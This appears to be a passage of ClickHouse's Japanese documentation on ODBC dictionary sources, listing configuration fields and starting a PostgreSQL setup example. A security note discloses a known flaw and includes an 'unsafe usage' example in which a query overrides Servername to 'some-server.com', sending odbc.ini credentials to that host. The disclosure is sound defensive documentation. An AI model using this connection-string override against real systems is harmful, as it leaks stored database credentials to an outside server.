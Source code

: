 設定フィールド：

- `db` – データベース名。 `<connection_string>`のパラメータでデータベース名が設定されている場合は省略します。
- `table` – テーブル名およびスキーマ名（存在する場合）。
- `connection_string` – 接続文字列。
- `invalidate_query` – 辞書の状態を確認するためのクエリ。 オプションのパラメータです。 辞書データの更新に関するセクション[辞書データの更新におけるLIFETIME](#refreshing-dictionary-data-using-lifetime)で詳しく説明しています。
- `background_reconnect` – 接続が失敗した場合にバックグラウンドでレプリカに再接続します。 オプションのパラメータです。
- `query` – カスタムクエリ。 オプションのパラメータです。

:::note
`table`と`query`フィールドは一緒に使用できません。 どちらか一方の`table`または`query`フィールドを宣言する必要があります。
:::

ClickHouseはODBCドライバーから引用シンボルを受け取り、ドライバーのクエリで設定をすべて引用します。 そのため、テーブル名はデータベース内のテーブル名のケースに従って正しく設定する必要があります。

Oracleを使用する際にエンコーディングに関する問題がある場合は、該当する[FAQ](/knowledgebase/oracle-odbc)項目を参照してください。
##### ODBC辞書機能の既知の脆弱性 {#known-vulnerability-of-the-odbc-dictionary-functionality}

:::note
ODBCドライバーを介してデータベースに接続する際、接続パラメータ`Servername`が置き換えられる可能性があります。 この場合、`odbc.ini`の`USERNAME`および`PASSWORD`の値がリモートサーバーに送信され、漏洩する可能性があります。
:::

**安全でない使用の例**

PostgreSQL用にunixODBCを設定してみましょう。 `/etc/odbc.ini`の内容：

``` text
[gregtest]
Driver = /usr/lib/psqlodbca.so
Servername = localhost
PORT = 5432
DATABASE = test_db
#OPTION = 3
USERNAME = test
PASSWORD = test
```

次に、次のようなクエリを実行すると：

``` sql
SELECT * FROM odbc('DSN=gregtest;Servername=some-server.com', 'test_db');
```

ODBCドライバーは`odbc.ini`の`USERNAME`および`PASSWORD`の値を`some-server.com`に送信します。
##### PostgreSQLに接続する例 {#example-of-connecting-postgresql}

Ubuntu OS。

unixODBCとPostgreSQL用ODBCドライバーをインストールする：

``` bash
$ sudo apt-get install -y unixodbc odbcinst odbc-postgresql
```
